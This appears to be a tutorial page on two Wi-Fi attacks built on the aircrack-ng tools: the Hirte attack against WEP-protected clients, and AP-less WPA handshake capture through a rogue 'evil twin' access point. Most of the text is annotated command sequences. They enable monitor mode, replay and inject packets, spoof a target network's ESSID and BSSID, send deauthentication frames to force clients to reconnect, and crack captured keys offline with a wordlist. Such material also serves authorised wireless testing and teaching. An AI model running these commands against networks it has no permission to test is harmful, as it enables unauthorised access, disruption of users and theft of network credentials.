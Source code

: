 
## Cracking WEP with Hirte
The Hirte attack enables WEP key recovery by exploiting a client’s responses to fragmented or replayed packets, even without an active access point. It is most useful in scenarios where a WEP network’s access point is unreachable but a previously connected client is nearby. By injecting specially crafted packets and harvesting the client's responses, an attacker can gather enough data to crack the WEP key offline. The attack is effective because it requires only a wireless client, expanding the attacker’s options beyond traditional access point-centric methods and highlighting the fragility of WEP encryption.
```bash
airmon-ng start wlan0  
                 # Enables monitor mode on wlan0, allowing packet injection and sniffing; creates mon0 (or wlan0mon)
airodump-ng mon0  
                 # Scans for nearby wireless networks; use this to identify a WEP-encrypted network and its MAC/channel
aireplay-ng --interactive -b [target MAC] -h [your MAC] mon0  
                 # Performs an interactive packet replay attack on the target WEP access point
                 # -b specifies the target AP's MAC address
                 # -h specifies your MAC address (spoofed or real)
                 # This injects packets based on traffic observed, aiming to accelerate IV collection
aircrack-ng -z -n 64 -b [target MAC] wephirte.cap  
                 # Attempts to crack the WEP key using the captured packets in "wephirte.cap"
                 # -z enables PTW (Pyshkin, Tews, Weinmann) attack, a faster WEP cracking method
                 # -n 64 specifies the WEP key length (64-bit)
                 # -b sets the target BSSID (MAC) of the access point

```
## AP-less WPA cracking
AP-less WPA cracking simulates a trusted access point to trick wireless clients into initiating a handshake, allowing the attacker to capture the WPA four-way handshake without needing the real access point. This attack is ideal when the attacker cannot disrupt or access the legitimate AP but has physical proximity to clients with stored credentials. It is effective because clients will often attempt to authenticate with any AP broadcasting a known SSID, enabling the attacker to collect authentication data for offline password attacks. This method is particularly powerful against poorly configured WPA networks and weak passphrases.
```bash
airmon-ng start wlan0  
                 # Enables monitor mode on wlan0 for sniffing and injecting packets; creates mon0 or wlan0mon
airbase-ng -e [target ESSID] -c [channel] -a [target BSSID] -Z 4 mon0  
                 # Creates a rogue AP mimicking the real one by spoofing its ESSID and BSSID on the specified channel
                 # -Z 4 enables WPA2 beaconing to trigger handshake attempts from clients
airodump-ng -c [channel] --bssid [target BSSID] -w ap-less mon0  
                 # Listens on the same channel and BSSID to capture handshake packets
                 # Saves the capture to a file named "ap-less-01.cap"
aireplay-ng --deauth 5 -a [target BSSID] -c [client MAC] mon0  
                 # Sends 5 deauthentication packets to the specified client
                 # Forces the client to disconnect and reconnect, triggering a WPA handshake with the rogue AP
aircrack-ng -w /path/to/wordlist.txt ap-less-01.cap  
                 # Attempts to crack the captured WPA handshake using a dictionary attack with the provided wordlist
```
This setup simulates the "evil twin" attack where no real AP needs to be online — only the rogue AP is needed to trick clients into connecting and revealing handshake data.

---